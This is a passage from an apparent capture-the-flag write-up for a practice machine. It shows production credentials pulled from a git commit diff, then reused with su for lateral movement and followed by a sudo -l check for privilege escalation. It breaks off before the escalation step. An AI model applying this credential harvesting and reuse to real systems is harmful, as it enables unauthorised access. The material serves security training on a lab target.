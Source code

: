I looked into `git show b73481` and it showed that they swapped the prod credentials with the dev credentials we found earlier. The prod credentials were - Username: `prod` & Password: `080217_Producti0n_2023!@`. Sweet!

```bash
dev@editorial:~/apps/.git$ git show b73481
commit b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:55:08 2023 -0500

    change(api): downgrading prod to dev
    
    * To use development environment.

diff --git a/app_api/app.py b/app_api/app.py
index 61b786f..3373b14 100644
--- a/app_api/app.py
+++ b/app_api/app.py
@@ -64,7 +64,7 @@ def index():
 @app.route(api_route + '/authors/message', methods=['GET'])
 def api_mail_new_authors():
     return jsonify({
-        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: prod\nPassword: 080217_Producti0n_2023!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
+        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
     }) # TODO: replace dev credentials when checks pass
 
 # -------------------------------
```

## Privilege Escalation
### SSH as Prod

I tried to switch to prod with `su prod` and used those credentials and I am now prod

```bash
prod@editorial:/home/dev$ whoami
prod
```

Ran `sudo -l` and it showed that I could run a python script with root privileges. Score!

```bash
rod@editorial:/home/dev$ sudo -l
Matching Defaults entries for prod on editorial:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User prod may run the following commands on editorial:
    (root) /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *
```
